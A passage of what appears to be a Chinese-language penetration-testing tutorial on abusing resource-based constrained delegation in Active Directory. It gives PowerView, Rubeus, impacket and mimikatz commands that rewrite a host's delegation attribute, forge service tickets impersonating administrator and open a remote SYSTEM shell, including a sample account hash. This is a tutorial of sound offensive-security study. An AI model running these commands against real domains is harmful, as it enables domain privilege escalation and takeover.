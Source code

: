 添加了一个密码 testObject，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的值，这个操作我们用 powerview 实现。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```powershell<br># 这里的 sid -> S-1-5-21-3298638106-3321833000-1571791979-1112<br># 是我们创建的 机器用户 evilsystem 的 sid，在 powerview 下用 <br>Get-Domiancomputer hacksystem<br># 获取<br><br>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"<br><br>$SDBytes = New-Object byte[] ($SD.BinaryLength)<br><br>$SD.GetBinaryForm($SDBytes, 0)<br><br>Get-DomainComputer [目标主机名]\| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose<br>``` |

验证是否成功添加：

`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity`

配置完 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### [](#424-%E6%94%BB%E5%87%BB)4.2.4 攻击

攻击路径：user -> evil -> target

本地导出机器用户的 ntlm hash：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>Rubeus.exe hash /user:evilsystem /password:testObject /domain:xxx<br>``` |

然后用 `evilsystem$` 的 hash 请求白银票据并导入到当前会话中：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:cifs/dc /ptt<br><br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:host/dc /ptt<br>``` |

#### [](#425-%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A1%B9)4.2.5 注意事项

Rubeus 申请的票据和 impacket 申请的缓存票据有差别，测试时使用 Psexec 返回一个 shell 失败，需要再申请一个 HOST 票据。

impacket

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>getST.py -dc-ip IP -spn cifs/target -impersonate administrator pentest.com/evilsystem$:evil<br><br>set KRB5CCNAME=administrator.ccache<br><br>python psexec.py -nopass -k target<br><br># 或者利用 mimikatz 导入票据<br>mimikatz.exe "privilege::debug" "kerberos::ptc administrator.ccache"<br>Psexec.exe \\target -s cmd<br>``` |

#### [](#426-%E8%A7%A3%E5%86%B3%E6%95%8F%E6%84%9F%E8%B4%A6%E6%88%B7%E4%B8%8D%E8%83%BD%E5%A7%94%E6%B4%BE)4.2.6 解决敏感账户不能委派

利用条件：知道目标的主机账户的凭证

**注：** 一般情况下主机在加入域中会随机设置主机账户的密码，所以一般情况下用的是主机账户 hash，并且不能修改主机账户的密码，否则该主机就会和域失去信任。

在域环境中，高权限用户如果没有特殊需求的情况下，考虑到安全性一般是设置为不可委派，或者是加入受保护组

在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行 S4U2PROXY。

用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/target /ptt`继续实验 administrator，发现确实是这样
